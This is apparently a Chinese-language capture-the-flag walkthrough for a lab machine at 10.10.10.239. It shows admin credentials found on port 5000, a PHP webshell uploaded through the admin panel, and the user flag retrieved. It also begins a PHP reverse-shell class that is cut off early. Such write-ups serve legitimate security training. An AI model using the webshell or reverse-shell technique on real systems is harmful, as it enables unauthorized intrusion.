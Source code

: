 ![image-20210521140042325](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521140042325.png)

访问443还是老样子bad request

![image-20210521140111490](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521140111490.png)

访问5000，找到有用信息admin: @LoveIsInTheAir!!!!

![image-20210521140158101](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521140158101.png)

尝试登陆10.10.10.239/admin,用上面的账密成功登录

![image-20210521140600649](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521140600649.png)

## getshell法一

上传webshell，写个一句话

![image-20210521142335858](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521142335858.png)

找到路径

![image-20210521142424746](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521142424746.png)

蚁剑成功拿下

![image-20210521143120910](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210521143120910.png)

之后到user的桌面下找到user.txt，拿到第一个flag

![image-20210521143510780](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521143510780.png)

## getshell法二

第二种拿shell方法

新建exploit.php文件内容如下，将ip和port更改

```
<?php class Sh
{
    private $a = null;
    private $p = null;
    private $os = null;
    private $sh = null;
    private $ds = array(
        0 => array(
            'pipe',
            'r'
        ) ,
        1 => array(
            'pipe',
            'w'
        ) ,
        2 => array(
            'pipe',
            'w'
        )
    );
    private $o = array();
    private $b = 1024;
    private $c = 0;
    private $e = false;
    public function __construct($a, $p)
    {
```